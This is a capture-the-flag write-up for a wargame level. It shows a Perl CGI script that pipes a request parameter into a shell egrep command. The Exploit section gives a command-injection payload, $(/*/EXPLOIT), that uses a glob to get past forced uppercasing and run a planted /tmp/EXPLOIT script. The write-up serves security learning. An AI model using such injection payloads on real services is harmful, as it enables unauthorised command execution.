

# Start



As we can see there is a script *level12.pl* running on port 4646.

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
    $nn = $_[1];
    $xx = $_[0];
    $xx =~ tr/a-z/A-Z/;
    $xx =~ s/\s.*//;
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
    foreach $line (@output) {
        ($f, $s) = split(/:/, $line);
        if($s =~ $nn) {
        return 1;
        }
    }
    return 0;
}

sub n {
    if($_[0] == 1) {
        print("..");
    } else {
        print(".");
    }    
}

n(t(param("x"), param("y")));
```

This script accept a request on port 4646, this request take 2 urlencoded arguments x, y. The arguments x is then transformed into uppercase and splited. Only the first part of the split is kept.

After splitting, egrep is run on file **/tmp/xd**, looking for patterns matching **x**. There is no need to go deeper than that.
The specific command being run is `egrep "^$xx" /tmp/xd`.

How can we exploit that ?

## Exploit

Since the argument x, is transformed into uppercase it makes things a bit more difficults. At first we thought about using something like this.

`$(EX=/tmp/exploit;${EX,,})` which would have be translated by batch as this
```bash
EX=/TMP/EXPLOIT     # Uppercase because of uppercase transformation from perl
${EX,,}             # ,, would transform /TMP/EXPLOIT into /tmp/exploit and then execute the line so: /tmp/exploit
```

**BUT** perl does not execute **bash** but **/bin/sh** which in this case refer to **dash**...

So we instead used a glob pattern. `$(/*/EXPLOIT)` and put the following file into **/tmp/EXPLOIT**.

```bash
#!/bin/bash

wall <<<"$(getflag)"
```